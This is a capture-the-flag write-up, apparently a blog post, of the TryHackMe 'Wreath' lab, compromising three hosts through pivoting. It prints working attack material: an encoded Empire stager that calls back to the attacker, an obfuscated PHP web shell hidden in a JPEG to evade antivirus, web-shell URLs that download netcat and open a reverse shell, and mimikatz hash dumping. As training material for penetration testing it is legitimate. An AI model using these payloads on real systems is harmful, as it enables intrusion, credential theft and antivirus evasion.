







# Introduction

Wreath is a simulated penetration test, with a network consisting of 3 hosts, with each host needing to be compromised in order to get access to the next host. TryHackMe describes Wreath as "Learn how to pivot through a network by compromising a public facing web machine and tunnelling your traffic to access other machines in Wreath's network.". Additional learning topics that TryHackMe lists for Wreath are:
 
 ```
    Pivoting
    Working with the Empire C2 (Command and Control) framework
    Simple Anti-Virus evasion techniques

The following topics will also be covered, albeit more briefly:

    Code Analysis (Python and PHP)
    Locating and modifying public exploits
    Simple webapp enumeration and exploitation
    Git Repository Analysis
    Simple Windows Post-Exploitation techniques
    CLI Firewall Administration (CentOS and Windows)
    Cross-Compilation techniques
    Coding wrapper programs
    Simple exfiltration techniques
    Formatting a pentest report
```

# Getting Started

Once I downloaded the connection pack and got connected in to the network, I proceeded to learn the backstory as to how we were contacted to perform this "penetration test". Your old friend, Thomas Wreath, randomly contacts you to see if you'd be willing to try and break in to some servers he has running on his home network. While this is probably not the best idea to agree to for a variety of legal reasons, let's just roll with it and see what our old friend Thomas is up to on these servers of his!

The intro then goes on to provide more info about the network setup provided by Thomas himself:


So it looks like there are a total of 3 hosts on the network that we need to get access to. I'll begin with enumerating the web server, which is the only publicly available system per the notes provided by Thomas. The network diagram provided by TryHackMe suggests that this is the way in to the environment as well.

# Web Server (10.200.196.200)

The first host I'm going after is the web server, which is at 10.200.196.200. Navigating to the URL, I'm given a Server Not Found page but notice in the address bar that the URL has changed to https://thomaswreath.thm/. Thomas has likely forgotten to set up a virtual host in the web server configuration for the IP address to resolve properly. In order to access the web site, I had to add an entry to my hosts file with the IP of the web server mapping to thomaswreath.thm. After adding the entry, the web site now loads properly:


I'll go ahead and run a full nmap scan against the web server to see if I can find out some more information about the host:

```
sudo nmap -sS -A 10.200.196.200
```

The nmap scan reveals that 22, 80, 443, 9090, and 10000 are listening on this host:


## Webmin

I can deduce that since SSH and Apache are running on the server, that this target is likely a Linux server (a personal favorite of mine to exploit!). Port 10000 looks interesting to check out, and heading over to that page in a browser reveals a login page:


Researching webmin further, it appears to be an offering from ESET for remote management of a Linux system. It seems that the credentials for Webmin are that of your root user and not an easily guessed pair of default credentials like admin/admin. Another very important piece of enumeration is to look at version numbers and search for known exploits. The nmap scan reveals what version of webmin is running on the web server:


Googling for exploits for webmin 1.890 exploit reveals a very juicy looking exploit:


The README has a link to a medium.com article which explains the exploit code just a slight bit more: https://medium.com/@foxsin34/webmin-1-890-exploit-unauthorized-rce-cve-2019-15107-23e4d5a9c3b4


Armed with this script and a seemingly vulnerable target, I'll run it against the web server and see what happens:


Based on the description of the explot, a message of a password being expired means that the target is not vulnerable. BUT, I got some form of code execution because the output of the id command is showing root. So, I'll try another command to see what happens:


## Getting root on Web Server

Based on the results of testing the exploit, it looks like the exploit is working! The next logical step to try is to see if netcat is installed so that I can perhaps try creating a reverse shell. I'll run which nc to see if nc is installed:



Hm... now the exploit no longer seems to be working! But since I have RCE as root, instead of going for a reverse shell, I'll enumerate root's home folder to see if there might be anything useful in there! Running an ls -la command on /root/ reveals an .ssh folder which is most definitely juicy:


And digging further in to the .ssh directory, I can see that we have a id_rsa key file present:



I'll cat the contents of the id_rsa file and save it locally in to a file of the same name, chmod 400 the file, and then ssh in as root with this key:



Consider your web server pwned, Mr. Wreath!

# Scanning Internal Network

Now that I have access to the internal network, I uploaded a nmap binary to the web server and ran a scan of the internal /24 subnet. It looks like 3 additional hosts were found (excluding the web server).

```
10.200.196.100
10.200.196.150
10.200.196.250
```

TryHackMe states that 10.200.196.250 is out of scope, so that leaves me with 2 hosts to enumerate.

# Git Server (10.200.196.150):

One of the newly discovered hosts, 10.200.196.150, looks interesting because it has a web server running, as well as RDP:


## Using proxychains to Access Git Server

Trying to connect to the web server on port 80 on this host, the request times out, which is expected. Thomas stated that only the web server is publicly accessible. Everything else can only be accessed from within the internal network. However, now that I have an SSH key for the web server, I can utilize SSH port forwarding to use the web server as a proxy to other hosts in the network, including the newly found host 10.200.196.150!

I'll use the following command to set up an SSH port forward, and utilize proxychains (which by default uses port 9050):

```
sh -D 9050 -i id_rsa -f -N root@10.200.196.200
```

Now that the web server can be used as a proxy to the rest of the network, I'll fire up Firefox and by using the foxyproxy plugin and configuring it to use the socks proxy, I can now access the web server running on 10.200.196.150:


This error page is useful and not useful - useful because I know that I'm successfully contacting the web server listening on this host, not useful because it's an error page! But now that I have confirmed that the SSH port forwarding is working, I can enumerate the web server by starting a directory scan on it. I prefer to use ffuf, but gobuster or another directory scanning tool will also get the job done. I'll use the proxychains tool to instruct ffuf to run through the SSH port forward. I'll also use the -x argument to specify the IP and port of the proxy server to use (in my case, localhost:9050). I'll be using the directory-list-2.3-medium.txt wordlist from SecLists for the wordlist, and telling ffuf to run with 100 threads and recursively begin a search of every sub directory it finds:

```
proxychains -q ffuf -u http://10.200.196.150/FUZZ -x socks5://127.0.0.1:9050 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .txt,.html,.php,.asp,.aspx,.jsp,.cgi,.pl,.sh,.bak,.py -t 100 -recursion
```

After several minutes of running, ffuf finds a directory called web:




Navigating to the that URL reveals that this is the git server!

## Git Server Exploitation

When trying to access anything on the page, I'm asked to authenticate. I don't have any credentials to use, so I'll start looking for known exploits to try Googling for GitStack exploits shows that there is an unauthenticated RCE exploit available: https://github.com/kacperszurek/exploits/blob/master/GitStack/gitstack_unauthenticated_rce.py

I just need to modify the exploit to use the IP address of the web server, and fire it off:


As this script needs to be ran against the git server, which is only accessible through the SSH port forward, I'll once again use proxychains but this time with python. The script by default runs the whoami command as the command to execute. Running the script, I get a response and the output shows we are running as nt authority\system. Mr. Wreath is 0/2 on the security of his servers so far:



Now that I have RCE on the git server as nt authority\system, we want to get access to the target. For this, I utilized the exploit to make myself a local account on the server, and then add that account to both the local Administrators group as well as the Remote Desktop Users group. I just ran the script 3 times, each time uncommenting and commenting out the respective commands to be ran:


I then used rdesktop with proxychains to connect in with my new account, and I'm in on the server:


# PowerShell Empire

Now that I'm dealing with multiple compromised hosts (the web server and the git server), it would be much easier to manage the targets by introducting a C2 (Command & Control) framework. The TryHackMe recommendation is to use PowerShell Empire. I won't go over how to install it in this post as there are detailed instructions on how to get it up and running in the TryHackMe room. I'll go ahead and start up the Empire server, client, and starkiller:




## Listeners

To be able to use Empire, I need to create a listener so that once I have a stager (payload)to execute on the web server, it will connect back to my PowerShell Empire instance. Creating a listener in starkiller is very simple. Click on Create and then choose the options you want for the listener. In my case, I'm going to use an HTTP listener and name it WebServerListener, as this will be the listener I use to connect the web server to my PowerShell Empire instance. For the host, I'll use the IP address assigned to my interface on the Try Hack Me VPN. For the port, I will use port 30031. The listener should look like the following when complete (the rest of the settings don't matter in this case):


Once submitted, a new listener will be created and awaiting a connection:


## Stagers

Now that a listener is set up, I need to configure a stager to execute a payload to connect back to the listener. To create a stager, simply click on the Stagers blade and create one.

I will choose the type multi/bash and choose the WebServerListener previously set up as the listener for the stager. Lastly, I'll choose python as the language for the stager:



Once the stager has been created, it will show up in the stagers menu. Now it's time to execute the payload on the web server! To get the stager payload, you just need to go to the stager and copy to the clipboard:


If you look at the raw contents of the stager, it looks like this:

``` 
#!/bin/bash
echo "import sys,base64,warnings;warnings.filterwarnings('ignore');exec(base64.b64decode('aW1wb3J0IHN5cztpbXBvcnQgdXJsbGliLnJlcXVlc3Q7ClVBPSdNb3ppbGxhLzUuMCAoV2luZG93cyBOVCA2LjE7IFdPVzY0OyBUcmlkZW50LzcuMDsgcnY6MTEuMCkgbGlrZSBHZWNrbyc7c2VydmVyPSdodHRwOi8vMTAuNTAuMTkzLjExMjozMDAzMSc7dD0nL2FkbWluL2dldC5waHAnO3JlcT11cmxsaWIucmVxdWVzdC5SZXF1ZXN0KHNlcnZlcit0KTsKcHJveHkgPSB1cmxsaWIucmVxdWVzdC5Qcm94eUhhbmRsZXIoKTsKbyA9IHVybGxpYi5yZXF1ZXN0LmJ1aWxkX29wZW5lcihwcm94eSk7Cm8uYWRkaGVhZGVycz1bKCdVc2VyLUFnZW50JyxVQSksICgiQ29va2llIiwgInNlc3Npb249MU1KU0tHYzhubG5rTW44TEtVRUROUHJMNXZZPSIpXTsKdXJsbGliLnJlcXVlc3QuaW5zdGFsbF9vcGVuZXIobyk7CmE9dXJsbGliLnJlcXVlc3QudXJsb3BlbihyZXEpLnJlYWQoKTsKSVY9YVswOjRdO2RhdGE9YVs0Ol07a2V5PUlWKyddZmVxYyhDKTB3PUd0S3p1NEAsTm01YUR+W0JpcCs7eycuZW5jb2RlKCdVVEYtOCcpO1MsaixvdXQ9bGlzdChyYW5nZSgyNTYpKSwwLFtdCmZvciBpIGluIGxpc3QocmFuZ2UoMjU2KSk6CiAgICBqPShqK1NbaV0ra2V5W2klbGVuKGtleSldKSUyNTYKICAgIFNbaV0sU1tqXT1TW2pdLFNbaV0KaT1qPTAKZm9yIGNoYXIgaW4gZGF0YToKICAgIGk9KGkrMSklMjU2CiAgICBqPShqK1NbaV0pJTI1NgogICAgU1tpXSxTW2pdPVNbal0sU1tpXQogICAgb3V0LmFwcGVuZChjaHIoY2hhcl5TWyhTW2ldK1Nbal0pJTI1Nl0pKQpleGVjKCcnLmpvaW4ob3V0KSk='));" | python3 &
rm -f "$0"
exit
```

You could copy and paste the whole contents of this in to a .sh script on the target, and then use bash to execute it. However, you can simply remove the beginning #!/bin/bash and just paste the remainder of the contents in to the terminal of the web server:


## Agents

The stager was able to connect back to the listener, and create an agent. An agent is simply a compromised machine that you can now use PowerShell Empire to manage:


Starkiller can be used to interact with agents and perform a variety of tasks. Simply click on the agent to open it up and start running commands or browse the file system. 

## Hop Listeners

Now that I have an agent for the web server, I'll turn my focus to the git server. Another cool thing that can be done with PowerShell Empire is create what's known as a hop listener. A hop listener can be useful for when you have access to a target that cannot directly communicate with your PowerShell Empire instance, but can communicate with another system that can communicate with your PowerShell Empire instance. This works by serving the stager for the target that you can't directly communicate with on a system that you can directly communicate with. The unreachable target will then make a connection to the target that can be reached, which will then relay the connection back to PowerShell Empire. In this case, the web server will be used as the hop listener, because it can both communicate with the git server and my local Kali machine.

First up, I'll create the hop listener and set the host to the web server:


I'll tell the hop listener to use the existing WebServerListener as the redirect:


Once the hop listener has been created, PowerShell Empire will output the stager files that need to be uploaded to the web server in the /tmp/http_hop directory on my Kali machine:


There are now also 2 listeners:


Next, I will create the stager for the hop listener. I'll choose multi/launcher as the type and powershell as the language, as this is the stager that will get executed on the git server which is a Windows host:


Next, I need to upload the contents from the /tmp/http_hop folder on my Kali machine to the web server so that the git server's stager can be used. I'll use the python SimpleHTTPServer module to host a web server in the /tmp/http_hop folder, and then download the files on to the web server:


Next, I'll recreate the directory structure and move the files accordingly:


## Empire Agent on Git Server

Now it's time to access the stager from the git server that is hosted on the web server. In order to make those files accessible, I need to start a web server listening on the port we defined in the http_hop listener, which was 50051. Since the firewall is enabled on the web server (which is running CentOS), I need to run the following commands to allow the port through the firewall:
 
```
sudo firewall-cmd --zone=public --permanent --add-port=50051/tcp
sudo firewall-cmd --reload
```

I'll use the PHP development web server built in with PHP in the directory where I stored the stager files:

```
php -S 0.0.0.0:50051 &>/dev/null &
```


Now, I can copy the payload for the multi/launcher stager and execute it on the git server from powershell from the Remote Desktop Connection. The code will execute and the agent will connect back.


The http_hop listener is now working, which is directing traffic from the git server to the web server and then to PowerShell Empire.

## Post Exploitation of Git Server:

The first thing I always do when I get access to a Windows target is to download mimikatz on to it and dump all the credentials. This can be useful for finding the passwords of other users who may have logged on to the server and had their credentials cached. Using the Remote Desktop Session on the git server, I'll start up a PowerShell session as Administrator and then proceed to download and run mimikatz from my Kali machine:


I'll then download mimikatz to the web server, as again the git server cannot directly communicate with my Kali machine. I'll use the PowerShell Empire agent on the web server to download mimikatz from my Kali machine:


And then I'll use PowerShell to download mimikatz.exe from the web server to the git server via Remote Desktop:


Then I'll run mimikatz to dump local username and password hashes:


And we get the NTLM hash for the Administrator user and Thomas:


Using crackstation.net, I'll attempt to crack the Administrator hash and Thomas's hash. I'm unable to crack the Administrator's hash, but for Thomas it successfully cracks as i<3ruby:


In a real world penetration test, you should never upload client hashes to public sites such as crackstation.net. You should always try to crack them offline with local wordlists.

# Thomas's PC (10.200.196.100)

The last target on the network that I need to get access to is Thomas's PC. I'm making the assumption that since Thomas said there were only 3 hosts on the network, and this is the last IP I haven't enumerated yet, that this is Thomas's PC. Since this was my first time using PowerShell Empire, I wanted to try out some of the modules that it offeres. I will leverage my existing PowerShell Empire agent on the git server to launch a port scan against Thomas's PC. I'll use the powershell/situational_awareness/network/portscan module to port scan 10.200.196.100:


## Remote Desktop

Thomas's PC has ports 80 and 3389 open. I'll try to remote desktop in with the username of thomas and the password of i<3ruby that was found earlier from the git server. However, I'm blocked from accessing RDP:


This is likely due to the fact that the traffic from Thomas's PC is restricted to just the git server and no other systems on the network. Thomas mentioned that he develops the website on his personal PC, so he likely is only allowing the git server to communicate to his personal PC. I'll try connecting from the git server to confirm this suspicion. The initial RDP connection is successful, but the user account thomas does not seem to be enabled for remote login:


## Port Forwarding to Access Thomas's PC's Web Server

With no access to RDP, I'll turn my focus to the web server running on Thomas's PC. He stated that he does development work on his personal PC, and then pushes the code to the web server. Since this is a development environment, it's very likely there is some kind of expirmental code or vulnerability present that can be exploited. However, in order to be able to access the web server on Thomas's PC from my Kali machine, I will need to do some port forwarding. Essentially, I need to create a way for the traffic coming back to the git server from Thomas's PC to be able to be passed back to me. This will get a little tricky, but just hold on for the ride and we will get through it!

First, I'll need to upload chisel to the git server via the PowerShell Empire agent. I'll start a python web server in the directory on my Kali machine where I've got the chisel binaries. Then I'll download the Windows binary to the web server due to the traffic restrictions between my Kali machine and the git server. Then I will download the Windows file to the git server via the PowerShell Empire agent on the git server:

```
iwr -UseBasicParsing -Uri http://10.200.198.200:50051/chisel.exe -OutFile C:\Users\excalibur\chisel.exe
```


Now I need to start a chisel server on the git server. Since doing so will cause the PowerShell Empire agent prompt to hang, I'll RDP back in to the git server. First, I need to allow a port through the firewall for the chisel server. I'll chose port 30000:

```
netsh advfirewall firewall add rule name="excaliburChisel" dir=in action=allow protocol=tcp localport=30000
```

Then I'll start the chisel server in socks5 proxy mode:

```
.\chisel.exe server -p 30000 --socks5
```

Now here is where it gets a little weird. Essentially, in order to acces the chisel proxy we just set up on the git server, I need to forward a local port on my Kali machine to the git server via the web server. To do this, I ran the following command:

```
ssh -i id_rsa -L 8003:10.200.196.150:30000 -f -N root@10.200.196.200
```

Now I am forwarding port 8003 from my local machine to the git server on port 30000 via the web server. I then need to use chisel in client mode on my Kali machine to send traffic through the forwarded 8003 port:

```
./chisel client 127.0.0.1:8003 8081:socks
```

On the git server there will be a connection:


Now I should have communication end to end from Thomas's PC to my local Kali machine. The last thing that I need to do is set up another proxy in foxyproxy to utilize port 8081:


And then attempting to access 10.200.196.100 via this proxy gets me back the development web server:


## Development Web Server Enumeration

Looking at the response headers, the development server is powered by PHP, so it can be assumed the website is coded in PHP:


Now that I can access the development website, I'll once again run ffuf to see if there are any interesting developmental directories found. Shortly after starting ffuf, a directory called resources is found and returns a 401 response code (unauthorized):


Going to this URL presents a login page, and trying the username thomas and password of i<3ruby, I'm able to log in:


It appears that I've logged in to a page where I can upload files to the server. Looking at the source code of the site, it looks like only jpeg, png, and gif file formats are accepted:


## Exploiting Development Web Server/Anti-Virus Bypass via Obfuscation

The first thing I always try to do when I find websites that allow file uploads and are written in PHP is to try and upload a web shell so I can get further access. First, I need to obtain a valid image file. I'll just download the picture of the cat that Thomas is using on the website. Downloading this file also tips me off to a location where uploaded images may potentially be stored:


This is useful information to have, as once I've upload a shell, I'm going to need to know where to find it. I'll then rename ruby.jpg to ruby.jpg.php, and validate with the exiftool that the MIME Type is still image/jpeg:


Had the MIME Type gotten changed or not been a value accepted by the server, it would be rejected at upload time. Next, I'll need to inject a PHP payload in to the comments of the file with the exiftool. I'll start out with a basic payload just to see if I can get the bypass to work:


The MIME Type is still image/jpeg, and additionally there is a comment with the test payload:


Now, I'll try to upload this file and see what happens:


The file uploads successfully! Now, how does it get accessed? The path mentioned earlier, /resources/assets/imgs, is not where files get uploaded. With a bit of basic sleuthing, I deduced that files were being uploaded to /resources/uploads/<FILE>. Thus, I accessed my web shell at /resources/uploads/ruby.jpg.php:


That's awesome that I have code being executed by the .jpg.php file, but a page that just displays "Test Payload" is pretty useless. What I want to do next is upgrade the PHP file in to something I can use to execute commands against the server. Thomas mentioned previously that his personal PC has anti-virus software running on it, so anything malicious is likely going to get flagged and disabled by the anti-virus software. Therefore, before I move on to making the PHP file more sophisticated, I'll look in to obfuscating it. Obfuscating the PHP file will make it harder for the anti-virus software to detect what it is truly doing. It's unknown know what anti-virus software is running on Thomas's PC, but given that it's Windows, it's very likely to be running Windows Defender. In order to obfuscate the upgraded PHP file, I'll use the website https://www.gaijin.at/en/tools/php-obfuscator to change what the final version of the file contents will look like.

I'll upgrade the PHP file to be a command shell, which means anything passed to ?wreath= will get executed. Once the file is uploaded, I can run commands like ?wreath=whoami, ?wreath=ls, etc. First, I'll obfuscate the contents:


Which gets output as:


Essentially what the obfuscation website has done is base64 encoded various aspects of the PHP code, among other things. This will trick the anti-virus software because it will be unable to match it to anything in it's database, since it's unlikely to of seen this particular set of code before. This is very basic anti-virus bypass techniques, but can surprisingly still work very well in a modern environment.

I'll make a new copy of the ruby.jpg file and name it exshell.jpg.php. I'll again use the exiftool to inject the payload in to the comments of the file. However, I'll also need to escape the $'s so that bash doesn't try to interpret them as variables. They can be escaped by using \'s in front of the $'s:

``` 
exiftool -Comment="<?php \$i0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$i0)){echo base64_decode('PHByZT4=').shell_exec(\$i0).base64_decode('PC9wcmU+');}die();?>" exshell.jpg.php
```

I'll then upload the file and attempt to see if our new payload is working:


I can successfully access the new .jpg.php file and issue commands with it. In this example, I just ran a whoami command, but this is just the beginning. 

## Reverse Shell on Thomas's PC

Now that I have command execution on Thomas's PC, I'm going to download a netcat binary on to it to get a reverse shell. The default netcat binary from Kali won't work on Thomas's PC, as it's signature is known by Windows Defender. Therefore, another compiled version of nc can be used from https://github.com/int0x33/nc.exe/

I'll then use the PHP shell to download netcat file from my Kali machine on to Thomas's PC:

```
http://10.200.196.100/resources/uploads/exshell.jpg.php?wreath=curl http://10.50.193.112/nc64.exe -o c:\\windows\\temp\\excaliburnc.exe
```

Then I'll start the executable with powershell and have it connect back to my Kali machine, where I've set up a listener on port 443:

```
http://10.200.196.100/resources/uploads/exshell.jpg.php?wreath=powershell.exe c:\\windows\\temp\\excaliburnc.exe 10.50.193.112 443-e cmd.exe
```
And I get a shell connection:


## Privilege Escalation on Thomas's PC

Since I have a reverse shell as Thomas, I assumed this was the end of the challenge as I figured Thomas would be an Administrator on his own machine. However, it appears that the user thomas is only a member of the low privileged Users group:


Therefore, this means that the user I have access as won't be able to do any privileged tasks. I'll have to find a way to escalate my privileges and get Administrative access! I'll run systeminfo to get some more information about Thomas's PC:


Then I'll run whoami /priv to see what privileges I have:


SeImpersonatePrivilege permissions used to mean 1 thing: JuicyPotato. However, Microsoft patched the vulnerability in new versions of Windows and Server 2019 is not vulnerable. However, new ways of abusing the SeImpersonatePrivilege permissions have been discovered, and one method is using PrintSpoofer: https://github.com/itm4n/PrintSpoofer

I'll download it from my Kali machine and then call my existing netcat binary with it to connect to another reverse shell on my Kali machine:


Then it's game over for Thomas Wreath, because the shell connects and I now have access to his personal PC as nt\authority system!


I've successfully exploited all 3 hosts on Thomas's network! Thanks for checking out this write-up, and I hope it will help you out if you are stuck on this room or any other scenario!


 